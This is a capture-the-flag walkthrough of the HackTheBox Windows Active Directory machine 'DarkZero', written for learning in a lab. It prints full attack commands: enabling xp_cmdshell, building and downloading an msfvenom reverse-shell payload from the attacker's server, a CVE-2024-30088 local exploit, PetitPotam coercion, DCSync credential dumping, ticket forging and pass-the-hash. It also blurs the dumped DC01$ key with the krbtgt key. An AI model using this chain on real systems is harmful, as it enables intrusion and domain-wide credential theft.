



> **Writeup by [@Certifa](https://github.com/Certifa)**
> 🗓️ HTB Machine: *DarkZero* • 🧠 Difficulty: Hard • 🐧 Windows

# 🧠 HackTheBox - DarkZero Walkthrough


---

## 📚 Table of Contents
- [🧠 HackTheBox - DarkZero Walkthrough](#-hackthebox---darkzero-walkthrough)
  - [📚 Table of Contents](#-table-of-contents)
  - [Overview](#overview)
  - [About](#about)
  - [TL;DR](#tldr)
  - [SETUP / NOTES](#setup--notes)
  - [RECON](#recon)
  - [ENUMERATION](#enumeration)
  - [EXPLOIT](#exploit)
  - [PRIVILEGE ESCALATION](#privilege-escalation)
  - [Final thoughts](#final-thoughts)
  - [LESSONS LEARNED](#lessons-learned)
  - [REFERENCES](#references)

##  Overview

**Machine: DarkZero**

**Difficulty: Hard**

**OS: Windows**

**Points: 40**

**Status: Active**

---

## About
This walkthrough covers the HackTheBox machine ‘DarkZero’, a Windows Active Directory environment. The box is notable for its focus on unintended attack paths and challenges you to deeply understand Kerberos, MS SQL, and advanced privilege escalation. The approach here is methodical, explaining each major step and rationale.

---

##  TL;DR

Initial access via HTB-provided credentials for john.w / RFulUtONCOL!

Identified two domains: darkzero.htb & darkzero.ext

MSSQL server access enables pivoting to DC02.darkzero.ext

Enabled xp_cmdshell for command execution and established a Meterpreter reverse shell

Privilege escalation using winPEAS; identified vulnerable kernel32.dll (CVE-2024-30088)

Exploited the kernel bug for SYSTEM privileges; dumped Administrator creds and used Golden Ticket techniques to obtain root.txt

##  SETUP / NOTES

Credentials: john.w / RFulUtONCOL!

Useful tools: nmap, bloodhound-python, crackmapexec, impacket-mssqlclient, msfvenom, winPEAS

MSSQL authentication requires Windows mode (-windows-auth) and domain credentials


Time synchronization is crucial: sudo ntpdate <target-ip> to avoid clock skew errors with Kerberos

Reverse shell and tool upload via Python HTTP server

Local privilege escalation exploitation requires an existing Meterpreter session

---

##  RECON
Starting off, HackTheBox already gave us the user:pass `john.w / RFulUtONCOL!`, so let's save that somehwere.

Now, let's run a `nmap` scan.

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-10-05 12:21 UTC
Nmap scan report for 10.129.13.116
Host is up (0.013s latency).

PORT      STATE SERVICE       VERSION
🟢53/tcp    open  domain        Simple DNS Plus
🟢88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-10-05 19:21:19Z)
🟢135/tcp   open  msrpc         Microsoft Windows RPC
🟢139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
🟢389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: darkzero.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.darkzero.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.darkzero.htb
| Not valid before: 2025-07-29T11:40:00
|_Not valid after:  2026-07-29T11:40:00
|_ssl-date: TLS randomness does not represent time
🟢445/tcp   open  microsoft-ds?
🟢464/tcp   open  kpasswd5?
🟢593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
🟢636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: darkzero.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.darkzero.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.darkzero.htb
| Not valid before: 2025-07-29T11:40:00
|_Not valid after:  2026-07-29T11:40:00
|_ssl-date: TLS randomness does not represent time
🟢1433/tcp  open  ms-sql-s      Microsoft SQL Server 2022 16.00.1000.00; RC0+
|_ms-sql-ntlm-info: ERROR: Script execution failed (use -d to debug)
|_ssl-date: 2025-10-05T19:22:55+00:00; +7h00m00s from scanner time.
|_ms-sql-info: ERROR: Script execution failed (use -d to debug)
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2025-10-05T18:33:52
|_Not valid after:  2055-10-05T18:33:52
🟢2179/tcp  open  vmrdp?
🟢3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: darkzero.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.darkzero.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.darkzero.htb
| Not valid before: 2025-07-29T11:40:00
|_Not valid after:  2026-07-29T11:40:00
|_ssl-date: TLS randomness does not represent time
🟢3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: darkzero.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.darkzero.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.darkzero.htb
| Not valid before: 2025-07-29T11:40:00
|_Not valid after:  2026-07-29T11:40:00
|_ssl-date: TLS randomness does not represent time
🟢5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
🟢9389/tcp  open  mc-nmf        .NET Message Framing
🟢49664/tcp open  msrpc         Microsoft Windows RPC
🟢49667/tcp open  msrpc         Microsoft Windows RPC
🟢49670/tcp open  msrpc         Microsoft Windows RPC
🟢49671/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
🟢49891/tcp open  msrpc         Microsoft Windows RPC
🟢49921/tcp open  msrpc         Microsoft Windows RPC
🟢49970/tcp open  msrpc         Microsoft Windows RPC
🟢61936/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled and required
|_clock-skew: mean: 6h59m59s, deviation: 0s, median: 6h59m59s
| smb2-time:
|   date: 2025-10-05T19:22:18
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 102.34 seconds
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-10-05 12:22 UTC
Nmap scan report for 10.129.13.116
Host is up (0.015s latency).
Not shown: 97 open|filtered udp ports (no-response)
PORT    STATE SERVICE
🟢53/udp  open  domain
🟢88/udp  open  kerberos-sec
🟢123/udp open  ntp

Nmap done: 1 IP address (1 host up) scanned in 1.94 seconds
```

This scan shows us some crucial information, the domain names `darkzero.htb` and `DC01.darkzero.htb` and that it is a windows server with a open port `1433` being `mssql`. `mssql` stands for `Microsoft Sql` and that is good to know.

Key findings:

- Multiple AD-related services (Kerberos, ldap, SMB, etc.)
- Domain: darkzero.htb (DC01.darkzero.htb)
- MSSQL on port 1433—a great target for lateral movement

---

##  ENUMERATION
With the information we have we can check some basic things first. We can run tools like `crackmapexec`, run `bloodhound` and many more.

I checked for accessible shares with crackmapexec:

`crackmapexec smb 10.129.110.78 -u john.w -p 'RFulUtONCOL!' --shares`


Hmm, it found nothing interesting, just the generic shares.

Let's go to our other tool `bloodhound`. What BloodHound-python does is it quickly maps Active Directory relationships to reveal hidden attack paths and privilege escalation opportunities.

Let's collected AD data with:

`bloodhound-python -u 'john.w' -p 'RFulUtONCOL!' -d darkzero.htb -ns 10.129.110.78 -c All`


We see a couple of things coming by, first we see `KRB_AP_ERR_SKEW(Clock skew too great)`. Although we have finished it succesfully, let's sync our time with the host because that error indicates a time difference.

`sudo ntpdate 10.129.110.78`

now when we `ls` in our directory, we see a bunch of .json files. These we use to upload into `Bloodhound`.


For the server side I use `neo4j`. So let's run that firts with `sudo neo4j start`.


Now that has been set up, we can run `bloodhound` by typing it directly into the terminal. You will be greeted with a login screen.


When logged in, click the 3rd option to import the json.


Sadly enough we don't find alot of info that we hoped to find. But whe have found one clue and that is a different domain, `darkzero.ext`



With all the information we have now we know a couple of things, `john.w` does not have acces to any shares, there is a .ext domain and what we haven't digged into yet is the `mssql` being open.

That's our next step. `impacket` is usefull for alot of things, it also helps us to possibly login to the mssql seerver. Let's test it out by running.

`impacket-mssqlclient 'darkzero.htb/john.w:RFulUtONCOL!@10.129.110.78' -windows-auth`


We have succesfully logged into the `mssql` server as john.w! the querys for mssql are a  little different then what we are used to. Same language, different accent as we may say.

After a bit of guessing work and knowing that `name` is one of the most common names for a column with names, we dig around.

Not being too familiar with `mssql`, I straight up fire away `select` commands to see if I can grab something usefull. Eventually I struck something, a server that ends with ext.

`SELECT name FROM sys.servers`


Running `help` gives us the next clue. It shows us the commands that we can perform. We see that we can link to another server using `use_link`.

`use_link "DC02.darkzero.ext"`


Now we hopped on `DC02`. Enumerating dc02 we found nothing very usefull. Nothing crazy that we can use, but looking back at the help menu we see that we can use `cmd` using the `xp_cmdshell` command. Using this command we can directly execute `cmd` and even perform something like a `reverse shell` into the host of the server.

---

##  EXPLOIT

We know enough information to try to create a `reverse shell` with `msfvenom` and send it over to the host as `dc02` with as listener being on `msfconsole`. The shell will be generated as a executable `.exe` so we can run it from `dc02` with `xp_cmdshell` so it will be triggerd.

We will generate our .exe through `msfvenom`. I chose `lhost` to be `tun0` so it will always be set to my ip, and `lport` to 4444 but you can always change it to your prefered port.

Generated a Meterpreter payload:

`msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT=4444 -f exe -o meterp_x64_tcp.exe`

with the .exe being generated, set up a python http server where the file is stored! If you set it up where the file isn't reachable we can not curl it into the mssql.

Running `python3 -m http.server 8000` into our terminal creates us a amazing way to store the .exe to the mssql.

curling our file into mssql and directly storing it we use this command.

`xp_cmdshell curl 10.10.14.138:8000/meterp_x64_tcp.exe -o C:\Windows\Temp\meterp_x64_tcp.exe`


Hmm, we got an error, `SQL blocked access to sys.xp_cmdshell`. Luckily, we can get around this and gain acces to xp_cmdshell with just a few commands.
```
sp_configure 'show advanced options', 1;
RECONFIGURE;
sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
```


We have successfully send `meterp_x64_tcp.exe` over to `C:\Windows\Temp`. That leaves us for one step. Get the listener running.

Open up your `msfconsole`.

And type in order.

```
use exploit/multi/handler

set PAYLOAD windows/x64/meterpreter/reverse_tcp

set LHOST tun0

set LPORT 4444
```


Last thing to do is type `run`. Now that the reverse TCP handler is running, we will switch over to the `mssql` and make sure we execute the .exe to gain connection.

`EXEC xp_cmdshell 'C:\Windows\Temp\meterp_x64_tcp.exe';`


Now we have `meterpreter` running we can use the `shell` command to go in as a shell, and type `exit` to go back to `meterpreter`.

typing `getuid` gets us the user id, and that came back with `Server username: darkzero-ext\svc_sql`.

checking our privileges with `whoami /priv` doesnt make me excited.


Normally, we can go to `Users` and go to `Desktop` to get `user.txt` but it's not there. We probably need to elevate our privileges to go to user because we are using the `svc_sql` account to browse around.

We know that we can export files etc to the server, so the best thing to do now to enumerate the server further is to export `winPEAS` to the server.

Making it ourselves easier we will use `meterpreter` to upload the .exe to the server!

So, `exit` back if you are in as `shell` and type
`cd C:\Users\svc_sql\AppData\local\temp`
`upload <pwd/winPEASx64.exe> `

Going to the destined folder is easier to upload to. We know by `getuid` that we are `svc_sql` so why not dump our .exe there.



Now we have that, let's go bet as `shell` and type dir to check if it is really in the temp folder of svc_sql.


We see that we have `winPEASx64`! You run winpeas by simply typing its .exe name, `winPEASx64.exe`


`winPEAS` does take a while, so let it run and it will be done shortly.

If you don't know where to look for while using `winPEAS`, don't worry. `winPEAS` has their own legend that makes it easier to navigate.


Focus on the red text that comes by.

After doing *alot* of reading, something catches my eye.

`kernel32`


Using google to find more about `kernel32` we find this site: https://attackerkb.com/topics/y8MOqV0WPr/cve-2024-30088

*Exploitability - High*, we will try to use this to elevate further to get user.txt.

When you are still as `shell`, `exit` back to `meterpreter` and type `background`. The session is still running but it is running in the background as we try to exploit `kernel32` with the found `cve-2024-30088`.

When backed all the way out type:

`use exploit/windows/local/cve_2024_30088_authz_basep` To set the CVE
`set LHOST tun0`
`set LPORT 4444`
`show sessions` To see what session Id our background is running as.
`set session <Id>`
`run`



If the session dies or anything goes wrong, re run making the connection, going to background and then using the exploit again.

Let's go to `shell` and navigate to `Users`. As we saw before the server only has **2** accounts. `svc_sql` and `Administrator`. svc doesnt have the `user.txt`, and now typing `whoami` in the terminal in shell we see that we are no longer `svc_sql` but `nt authority\system`! Let's go to `Administrator` and check if user is at `Desktop`.


We have found `user.txt`!

---

##  PRIVILEGE ESCALATION

For privesc we will try to catch a **ticket** and use that to impersonate to login as Admin eventually.

To do that we will upload `Rubeus.exe` to the server so we can see and catch the tickets, as we then trigger the ticket we want to use.

Go back to `meterpreter` using `exit` and type `upload <Path-to-your-Rubeus.exe>`. I uploaded it while being in svc_sql/Desktop.

After you got it uploaded, you will run Rubeus to get the Encoded Tickets, using

`Rubeus.exe monitor /interval:5 /nowrap`

It will monitor every 5 seconds for new `TGTs`.


We have catched multiple `TGTs` like, DC01, svc_sql and even Administrator. We want to catch the TGT of `DC01` but sadly enough it didnt pop up. We can trigger it by using a tool called `PetitPotam`.

We use it by sending

`python3 /opt/tools/PetitPotam.py -d darkzero.htb -u 'john.w' -p 'RFulUtONCOL!' DC02.darkzero.ext DC01.darkzero.htb -pipe all`

for me it works more reliable then spamming `xp_dirtree`.

Now when we look back at Rubeus we see that a new Ticket has popped up!


Now we will do a couple of things, at first.

Copy the `Base64EncodedTicket` and `nano` a .b64 file and place the value inside of it. Next run `base64 -d ticket.b64 > dc01.kirbi`. We turn it into a .kirbi so we can use `ticketConverter` to turn it into a .ccache. Now finally we use `ticketConverter.py dc01.kirbi dc01.ccache` and it returns us the .ccache that we will use for our `KRB5CCNAME`.

Let's set our .ccache as our way to authenticate as `export KRB5CCNAME=dc01.ccache`. If you want to you can look inside of the .ccache to check if everything works with `klist -c filename.ccache`.

Now we have the .ccache set up, we will cacth the kerberos keys to get to the next step using.

`secretsdump.py -k -no-pass -dc-ip <ip> -just-dc-user DC01$ @darkzero.htb`

if you see issues with time use `sudo ntpdate <target ip>`.


We need the aes256 key to create a `golden ticket`. To perform a Golden Ticket attack in Active Directory, we need to generate a forged Kerberos Ticket Granting Ticket `(TGT)` that’s trusted by the Key Distribution Center `(KDC)`. Here’s how I did it in my workflow, with an explanation of each piece:

`krbtgt AES key`: extracted using DCSync (secretsdump.py or mimikatz) after gaining high privileges on a DC. This key signs Kerberos tickets.

`Domain SID`: unique identifier for the Active Directory domain. Also grabbed via secretsdump.py or similar.

`Domain FQDN`: e.g., DARKZERO.HTB.

`RID/User ID and username`: the account you want to impersonate; for machine accounts, add a $ at the end (e.g., DC01$).

```bash
ticketer.py -aesKey 25e1e7b4219c9b414726983f0f50bbf28daa11dd4a24eed82c451c4d763c9941 \
  -domain-sid S-1-5-21-1152179935-589108180-1989892463 \
  -domain DARKZERO.HTB \
  -user-id 1000 DC01$
```

So basically,

- `aesKey` tells ticketer.py which key to use for forging and signing the ticket – this must be the actual krbtgt AES key from the domain.

- `domain-sid` is the domain's SID so the ticket matches the domain context.

- `domain` is the human-readable FQDN of the target AD domain.

- `user-id` is the RID (Relative Identifier) for the user or computer.

- `user DC01$` specifies the user account you are forging the ticket for. Here it’s a computer account.

Long story short, we use and run this to impersonate a user.

When you ran that command, you will recieve a different .ccache.


We will use that specific .ccache and set it as our `export KRB5CCNAME=DC01$.ccache` so we will try to run `secretsdump.py` again and dump Administrator hashes.

``secretsdump.py -k -no-pass -dc-ip <ip> -just-dc-user Administrator @darkzero.htb``


It worked! We now have the `Administrator` hash and can try to login as admin.

You can use many tools for this but I stayed basic and chose `evil-winrm`.

Run your command with `-i` for ip `-u` for username and `-H` for the 0x17 hash you found while dumping `Administrator`.

``evil-winrm -i <ip> -u Administrator -H <NTLM_hash>``


And after you logged in, as you can see we checked with `whoami` our privileges, and dove straight to `Desktop` to get our `root.txt`.

---

##  Final thoughts

DarkZero is a fantastic test of advanced Windows exploitation. It pushed me to combine enumeration, privilege escalation, pass-the-hash, and persistence techniques. This challenge deepened my understanding of the Kerberos ticketing process, and the importance of monitoring and securing AD environments against these post-exploitation tactics.

---

##  LESSONS LEARNED
Active Directory attacks often require chaining multiple techniques: lateral movement, Kerberos abuse, hash extraction.

Time synchronization is absolutely critical for Kerberos-based exploits.

Golden Ticket attacks demonstrate how dangerous it is if krbtgt keys are leaked.

Always enumerate thoroughly—unexpected clues (like a secondary domain) can change your attack chain.

Tools like BloodHound and winPEAS are invaluable for visibility.

---

##  REFERENCES
PetitPotam: https://github.com/topotam/PetitPotam

Rubeus: https://github.com/GhostPack/Rubeus

Kerberos Golden Ticket Attack explanation: https://www.picussecurity.com/resource/blog/golden-ticket-attack-mitre-t1558.001
